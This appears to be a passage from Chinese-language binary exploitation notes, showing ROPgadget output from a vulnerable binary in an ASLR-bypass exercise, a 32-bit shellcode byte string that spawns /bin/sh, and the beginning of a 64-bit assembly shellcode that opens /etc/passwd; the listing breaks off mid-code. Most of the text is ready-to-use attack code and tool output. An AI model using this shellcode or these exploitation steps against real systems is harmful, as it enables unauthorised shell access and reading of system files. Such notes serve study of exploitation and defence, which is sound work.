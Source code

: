 ```
0x00000000000007ed : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000000005a6 : ret
0x0000000000000671 : ret
0x00000000000006c1 : ret
0x0000000000000700 : ret
0x0000000000000709 : ret
0x0000000000000708 : ret
0x000000000000078b : ret
0x00000000000007df : ret
0x00000000000007f4 : ret
0x0000000000000801 : ret
0x0000000000000800 : ret
0x000000000000080c : ret
0x000000000000059d : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x0000000000000805 : sub esp, 8 ; add rsp, 8 ; ret
0x0000000000000804 : sub rsp, 8 ; add rsp, 8 ; ret
0x000000000000066a : test byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; pop rbp ; ret
0x00000000000006ba : test byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; pop rbp ; ret
0x00000000000007fa : test byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; ret
0x000000000000059c : test eax, eax ; je 0x5a6 ; call rax
0x000000000000065f : test eax, eax ; je 0x675 ; pop rbp ; jmp rax
0x00000000000006b0 : test eax, eax ; je 0x6c5 ; pop rbp ; jmp rax
0x000000000000059b : test rax, rax ; je 0x5a7 ; call rax
0x000000000000065e : test rax, rax ; je 0x676 ; pop rbp ; jmp rax
0x00000000000006af : test rax, rax ; je 0x6c6 ; pop rbp ; jmp rax

Unique gadgets found: 85
tianji@tianji-machine:~/Desktop/sploit/bypassaslr_1$ ROPgadget --binary vuln --all | grep "pop rdi ; ret"
0x00000000000007f3 : pop rdi ; ret
```
## 32位shellcode

```
\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
```

## 64位shellcode



## shellcode编写

读取/etc/passwd

```
BITS 64 
; Author Mr.Un1k0d3r - RingZer0 Team 
; Read /etc/passwd Linux x86_64 Shellcode 
; Shellcode size 82 bytes 
global _start 
section .text 
_start: 
    jmp _push_filename 

_readfile: 
    ; syscall open file 
    pop rdi   ; pop path value 
    ; NULL byte fix 
    xor byte [rdi + 11], 0x41 
```